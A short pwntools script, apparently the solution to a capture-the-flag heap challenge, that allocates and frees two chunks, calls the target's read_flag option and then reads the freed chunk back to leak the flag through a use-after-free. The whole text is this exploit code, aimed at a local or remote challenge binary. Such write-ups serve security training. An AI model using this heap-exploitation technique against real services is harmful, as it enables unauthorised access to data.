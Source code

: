 ```python
context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx))
    target.sendlineafter(b"Size: ", str(size))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx))


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(0, 911)
    malloc(1, 911)
    free(0)
    free(1)
    read_flag()
    puts(0)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
